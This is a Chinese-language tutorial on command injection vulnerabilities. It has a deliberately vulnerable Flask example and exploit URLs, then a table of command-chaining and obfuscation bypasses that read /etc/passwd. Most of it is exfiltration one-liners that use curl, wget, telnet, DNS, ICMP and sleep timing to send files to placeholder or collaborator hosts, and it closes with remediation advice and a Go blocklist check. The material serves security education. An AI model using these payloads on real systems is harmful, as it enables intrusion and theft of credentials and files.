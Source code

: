 ## 0x01 命令执行漏洞简介

### 1.1 漏洞场景

​	Web应用程序在实现某些高级功能时可能需要调用外部程序来实现，如果引入的外部程序本身存在安全隐患或对传入的参数进行拼接操作，可能会导致程序出现安全隐患。

## 0x02 命令执行漏洞检测

### 2.1 调用外部命令

#### 2.1.1 漏洞代码

```
# -*- coding: utf-8 -*-

import subprocess
from flask import Flask, request, send_file
app = Flask(__name__)

@app.route("/", methods=['GET','POST'])
def index():
    url = request.args.get('url')
    argstr = request.args.get('argstr')
    cmdstr = "wkhtmltoimage.exe {} {} image.png".format(argstr, url)
    rsp = subprocess.Popen(cmdstr, shell=True)
    rsp.wait()
    return send_file('image.png', mimetype='image/gif')
    
if __name__ == '__main__':

    app.run(debug = True)
```

#### 2.1.2 漏洞利用

​	如下图所示，通过命令连接符连接多个命令，成功写入123.txt。

```
http://127.0.0.1:5000/?argstr=||echo%20123%20%3E%20c:\123.txt||&url=
http://127.0.0.1:5000/?argstr=&url=||echo%20123%20%3E%20c:\123.txt
```

### 2.2 Bypass

#### 2.2.1 命令拼接

| 连接符     | 示例                                                         |
| ---------- | ------------------------------------------------------------ |
| \|         | ping www.xx.com -c 1\|cat /etc/passwd;                       |
| \|\|       | ping www.xx.com -c 1\|\|cat /etc/passwd;                     |
| &          | ping www.xx.com -c 1&cat /etc/passwd;                        |
| &&         | ping www.xx.com -c 1&&cat /etc/passwd;                       |
| ;          | ping www.xx.com -c 1;cat /etc/passwd;                        |
| $(sleep 5) | ping www.xx.com -c $(sleep 5);                               |
| %0d%0a     | ping www.xx.com -c 1%0d%0acat /etc/passwd;                   |
| ../        | cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/ipconfig.exe" |

#### 2.2.2 命令混淆

- Linux

```
uname${IFS}-a
uname$IFS$9-a
uname%09-a

a=l;b=s;$a$b -la
ca\t /etc/passwd

echo 'ls /'|base64
echo bHMgLwo=|base64 -d
```

- Windows

```
(who"a"mi)
who"a"^mi

set a=w
set b=hoami
%a%%b%
```

#### 2.2.3 命令回传

- windows

```
telnet xx.xx.xx.xx:xxxx < c:\win.ini
```

```
net use h: \\xxx.xxx.xxx.xxx\web /user:administrator 123456 && copy index.php h:\index.php
```

- linux

```
curl -X POST -F xx=@index.php http://s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net
cat /etc/passwd | curl –F ":data=@-" http://xx.xx.xx.xxx:xxxx/test.txt
curl –T /etc/passwd ftp://xxx.xxx.xxx.xxx –-user {username}:{password}
```

```
wget --header="evil:`cat /etc/passwd | xargs echo –n`" http://xxx.xxx.xxx:xxxx
wget --post-data exfil=`cat /etc/passwd`&b=1 http://xxx.xxx.xxx.xxx:xxxx
wget --post-file index.php http://xxx.xxx.xxx.xxx:xxxx
```

```
cat /etc/passwd | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
```

```
ping `cat /etc/passwd|wc -c`.baidu.com	# 计算passwd内容字节长度
ping `cat /etc/passwd|base64|cut -c 1-20`.baidu.com	# 截取字符串
```

```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done	# ICMP回显
```

```
$(sleep $(cat index.php | wc -c))	# 计算index.php内容字符长度
$(sleep $(cat index.php | cut -c 1 | tr a 5))	# 取index.php文件中的第一个字符,如果是'a',则转换为5
```

```
for /F %x in ('whoami') do start s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net/[%x].jpg
```

## 0x03 命令执行漏洞修复

### 3.1 白名单进行过滤

​	可通过白名单限制字符类型，仅允许字符、数字、下划线，或过滤转义相关字符。

### 3.2 避免拼接操作系统命令

​	避免通过"cmd"、“bash”、“sh”等命令创建shell后拼接外部数据来执行操作系统命令。

```
func checkIllegal(cmdName string) bool {
	if strings.Contains(cmdName, "&") || strings.Contains(cmdName, "|") || strings.Contains(cmdName, ";") ||
		strings.Contains(cmdName, "$") || strings.Contains(cmdName, "'") || strings.Contains(cmdName, "`") ||
		strings.Contains(cmdName, "(") || strings.Contains(cmdName, ")") || strings.Contains(cmdName, "\"") {
		return true
	}
	return false
}
```



